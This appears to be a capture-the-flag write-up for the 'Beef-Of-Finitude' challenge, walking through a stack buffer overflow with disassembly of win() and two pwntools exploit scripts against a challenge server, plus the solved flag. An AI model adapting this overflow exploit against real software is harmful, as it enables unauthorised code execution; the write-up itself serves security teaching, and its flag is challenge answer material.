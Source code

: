 # Beef-Of-Finitude

To start off, we see a main function which calls function myFun.
   
--> This functions takes in two inputs (strings), one as name and the other as password. 
--> An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
--> The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
--> This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
--> Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. 
```
To do that we may use the following code:

from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()
```
Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 

## The gdb dump for the win() function is:
```
   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
   ```
--> Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we willnhave to:
   a) rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
   b) rewrite the return address stored at eip to that of the win function, 
   c) pass arguments of win function, i.e 
   param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
## python program : (cotinuation)
   ```
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   ```
### Flag: UDCTF{0bl1g4t0ry_buff3r_ov3rflow}

